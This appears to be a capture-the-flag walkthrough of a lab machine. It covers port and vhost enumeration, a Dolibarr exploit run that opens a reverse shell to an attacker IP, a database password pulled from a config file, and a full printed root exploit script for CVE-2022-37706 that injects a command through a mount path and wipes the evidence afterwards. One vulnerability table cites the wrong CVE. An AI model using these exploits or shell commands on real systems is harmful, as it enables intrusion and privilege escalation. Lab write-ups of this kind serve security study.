



# Enumeration

## NMAP

```bash
nmap -sC -sV -Pn -p- 10.10.11.11 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 09:48 EDT
Nmap scan report for 10.10.11.11
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.73 seconds

```

## Subdomain

```bash
sudo gobuster vhost -u 'http://board.htb' -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================

```




The default credentials for Dolibarr are `admin`,`admin`.
## Vulnerability Search
Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/CVE-2023-30253
Exploit  | https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

```bash
python3 exploit.py http://crm.board.htb admin admin 10.10.14.17 4445 
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
```

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
```
```bash
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

We can try to login as the user `larissa` with the same credentials.



# Lateral Movement

Also an interesting find is that the target host is a Desktop machine. We can use linpeas to discover vulnerable services in order to perform lateral movement.

```bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                                                                  
                      ╚════════════════════════════════════╝                                                                                                                                                                                                                        
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                                                                                                     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                                                                                                                                                           
-rwsr-sr-x 1 root root 15K Apr  8  2024 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 467K Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 15K Oct 27  2023 /usr/bin/vmware-user-suid-wrapper

```
We can find the version of the enlightenment binary with
```bash
larissa@boardlight:~$ dpkg -l | grep -i enlight
ii  efl-doc                                1.23.3-8                            all          Documentation for the Enlightenment Foundation Libraries
hi  enlightenment                          0.23.1-4                            amd64        X11 window manager based on EFL
hi  enlightenment-data                     0.23.1-4                            all          X11 window manager based on EFL - run time data files
ii  libefl-all-dev                         1.23.3-8                            amd64        Enlightenment Foundation Libraries development files
```

## Vulnerability Search
Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/CVE-2023-30253
Exploit  | https://github.com/junnythemarksman/CVE-2022-37706/blob/main/exploit.sh

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```
We just copy the script into the target machine and run the exploit


